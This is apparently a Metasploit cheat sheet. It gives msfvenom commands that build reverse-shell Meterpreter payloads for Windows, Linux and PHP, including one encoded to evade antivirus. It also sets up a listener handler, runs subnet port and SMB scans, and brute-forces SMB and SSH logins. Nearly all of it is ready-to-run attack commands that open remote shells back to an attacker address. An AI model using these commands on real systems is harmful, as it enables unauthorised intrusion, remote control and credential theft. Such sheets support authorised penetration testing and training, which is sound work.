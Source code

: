 ## Payloads

### Generate Payloads
```bash
# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > shell.exe

# Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf > shell.elf

# Web
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > shell.php

# Encode payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -f exe > encoded.exe
```

### Handlers
```bash
# Start a handler
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit -j
```

## Useful Modules

### Scanners
```bash
# Port scan
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.1-254
set PORTS 1-10000
run

# SMB version
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.1.1/24
run
```

### Password Attacks
```bash
# SMB login
use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.1.1
set USER_FILE users.txt
set PASS_FILE passwords.txt
run

# SSH login
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.1.1
set USERPASS_FILE creds.txt
run
```
